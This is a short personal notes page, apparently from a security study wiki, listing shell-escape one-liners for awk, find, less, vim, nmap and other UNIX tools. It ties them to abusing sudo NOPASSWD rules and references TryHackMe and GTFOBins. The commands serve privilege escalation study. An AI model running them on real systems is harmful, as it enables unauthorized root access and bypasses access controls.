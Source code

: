 # Shell Escapes

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via [sudo](enumerate-sudo-access.md).

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — see [Set a Shell in ViM](set-a-shell-in-vim.md)

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 31, 2021
